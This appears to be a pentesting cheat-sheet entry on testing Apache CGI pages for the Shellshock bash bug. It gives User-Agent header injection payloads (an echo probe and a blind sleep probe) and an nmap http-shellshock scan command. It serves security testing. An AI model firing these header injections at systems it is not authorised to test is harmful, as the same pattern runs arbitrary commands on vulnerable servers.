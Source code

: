 # [Shellshock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29)

**Requirements:**
* mod_cgi
* Apache
* Unix system
* More...?

CGI files are generally vulnerable to Shellshock.

## Testing with Burp

In order to test if the page is vulnerable, grab a request with burp and change the user-agent header:

```bash
#Commands should specify full path.
User-Agent: () { :; };/bin/echo test #This might doesn't output any result.

#Blind method:
User-Agent: () { :; }; sleep 10
```

## Test if vulnerable with NMAP

```bash
nmap $IPADDRESS -p 80 \
  --script=http-shellshock \
  --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi
```
